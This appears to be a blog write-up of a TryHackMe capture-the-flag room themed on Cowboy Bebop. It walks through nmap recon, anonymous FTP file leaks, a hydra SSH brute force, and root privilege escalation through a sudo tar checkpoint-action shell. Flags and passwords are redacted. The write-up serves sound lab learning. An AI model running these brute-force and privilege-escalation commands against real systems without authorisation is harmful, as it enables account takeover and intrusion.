


# Bounty Hacker - TryHackMe CTF

A Cowboy Bebop themed room where you play an elite hacker who talked a big game at a bar and now has to prove it. Short, smooth, and it taught me a privesc trick I hadn't seen before: getting a root shell out of **tar**.
Note: like always, I'm leaving the actual flags and passwords out of this writeup so I don't spoil the room for anyone.
[Link for the CTF](https://tryhackme.com/room/cowboyhacker)

---

## Recon

Full nmap scan with scripts and versions:

```text
zero ❯ nmap -sC -sV <machine-ip>
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

Three ports, and the banner I care about is right there: **anonymous FTP login allowed**. When a box hands you a file share with no credentials, you take the files.

The website itself is a single page with a dramatic anime quote and, as far as I could tell from the source, nothing useful hidden in it:





## The FTP Leaks

Anonymous login it is:

```text
zero ❯ ftp <machine-ip>
Name: anonymous
230 Login successful.
ftp> ls
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

Two text files, and both are gifts:

`task.txt` is a two-line to-do list about protecting some character and planning a pickup on the moon, and it's **signed with a name: lin**. That's a username, served voluntarily. First rule of CTF boxes: whoever signs the files probably has an account.

`locks.txt` is better: it's not a lock-picking guide, it's a **custom password wordlist** - a couple dozen mangled variations on one theme, clearly built for something. A wordlist with 26 entries is not for a rainbow table. It's for **brute forcing one specific account**.

## Hydra Against SSH

Custom wordlist + known username = hydra time. The room's questions nudge you toward it too - "what service can you brute force with the text file?" Port 22, so SSH:

```text
zero ❯ hydra -l lin -P locks.txt <machine-ip> ssh
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://<machine-ip>:22/
[22][ssh] host: <machine-ip>   login: lin
1 of 1 target successfully completed, 1 valid password found
```

Twenty-six candidates. It finishes almost before you blink - hydra found the password for `lin` faster than I could switch terminals. (The password itself stays redacted, obviously.)

Then just SSH in as a normal person:

```text
zero ❯ ssh lin@<machine-ip>
lin@<machine-ip>:~$ ls
user.txt
lin@<machine-ip>:~$ cat user.txt
```

User flag captured, not printed here.

## Root via Sudo Tar

Standard privesc enumeration. `sudo -l` shows what lin may run as root, and it's one command: **tar**.

That sounds boring until you check [GTFOBins](https://gtfobins.github.io/) - tar has a checkpoint feature that runs a command after every archived block. If tar runs as root, the command it runs is root too:

```text
lin@<machine-ip>:~$ sudo tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# cat root.txt
```

The trick reads like a magic incantation but it's simple: archive nothing into nothing, and use the checkpoint action as a generic "run this binary" hook. Root shell, root flag captured (redacted as always), room complete.

## What I Learned

- Anonymous FTP is rarely just a file drop - read **every** file it hands you, and treat signed notes as usernames
- A tiny custom wordlist found on a box is a hint about exactly one thing: **a targeted brute force**, and hydra is the tool for it
- `sudo -l` before every other privesc idea - one allowed binary beats a SUID hunt
- **tar** is a privesc vector via `--checkpoint-action=exec=`; GTFOBins remains the fastest lookup from "sudo allows X" to "root shell"
- Easy boxes still teach clean attack chains: leak creds, crack offline-sized wordlists, escalate through a legit tool

---

**If you're trying this room too and get stuck, feel free to DM me or just throw commands at the wall like I did - eventually something sticks.**
